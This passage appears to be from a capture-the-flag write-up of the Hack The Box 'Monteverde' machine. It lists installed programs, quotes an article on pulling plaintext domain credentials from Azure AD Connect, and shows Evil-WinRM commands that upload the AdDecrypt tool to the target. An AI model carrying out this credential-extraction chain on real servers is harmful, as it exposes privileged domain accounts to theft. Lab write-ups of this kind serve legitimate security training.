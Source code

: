 ```text
    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   9:36 PM                Common Files
d-----         1/2/2020   2:46 PM                internet explorer
d-----         1/2/2020   2:38 PM                Microsoft Analysis Services
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
d-----         1/2/2020   2:38 PM                Microsoft SQL Server

<snip>
```

After doing a bit of Googling I found this article: https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/ which explains a privilege escalation vector we can use. 

From the article:

```text
The Azure AD Connect service is essentially responsible for synchronizing things between your local AD domain, and the Azure based domain. However, to do this it needs privileged credentials for your local domain so that it can perform various operations such as syncing passwords etc. <snip>

TL;DR: Its possible to just run some simple .NET or Powershell code on the server where Azure AD Connect is installed and instantly get plain text credentials for whatever AD account it is set to use! 
```

Lets go ahead and grab the scripts at https://github.com/VbScrub/AdSyncDecrypt

We can then make a `TEMP` folder and upload the executable and the accompanying .dll:

```text
*Evil-WinRM* PS C:\> mkdir TEMP


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        8/14/2023   8:06 AM                TEMP


*Evil-WinRM* PS C:\> cd TEMP
*Evil-WinRM* PS C:\TEMP> upload ~/HTB/Monteverde/AdDecrypt.exe
Info: Uploading ~/HTB/Monteverde/AdDecrypt.exe to C:\TEMP\AdDecrypt.exe

                                                             
Data: 19796 bytes of 19796 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\TEMP> upload ~/HTB/Monteverde/mcrypt.dll
Info: Uploading ~/HTB/Monteverde/mcrypt.dll to C:\TEMP\mcrypt.dll

                                                             
Data: 445664 bytes of 445664 bytes copied

Info: Upload successful!
```
